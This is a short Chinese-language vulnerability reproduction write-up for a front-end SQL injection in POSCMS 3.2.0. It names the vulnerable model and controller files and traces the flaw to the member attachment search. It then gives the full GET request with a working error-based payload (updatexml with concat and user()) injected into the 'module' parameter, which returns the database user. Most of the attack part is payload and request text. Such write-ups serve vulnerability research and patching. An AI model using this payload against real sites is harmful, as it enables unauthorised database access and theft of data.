 POSCMS 3.2.0 前台sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

![1.png](resource/POSCMS3.2.0前台sql注入漏洞/media/rId24.png)

查看源码（`\diy\dayrui\models\Attachment_model.php`）可以发现注入点：

![2.png](resource/POSCMS3.2.0前台sql注入漏洞/media/rId25.png)

该函数的调用点位于（`\diy\module\member\controllers\Account.php`）：

![3.png](resource/POSCMS3.2.0前台sql注入漏洞/media/rId26.png)

对应的功能实际是前台用户中心---\>基本管理---\>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：

    GET /index.php?s=member&c=account&m=attachment&module=photo&ext= HTTP/1.1
    Host: www.0-sec.org

向`module`参数注入Payload果然出现了报错：

![4.png](resource/POSCMS3.2.0前台sql注入漏洞/media/rId27.png)

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload------`" or updatexml(1,concat(1,0x7e,user()),1);#`拼接入参数中，得到了数据库当前用户：

    GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= HTTP/1.1
    Host: www.0-sec.org

![5.png](resource/POSCMS3.2.0前台sql注入漏洞/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-5
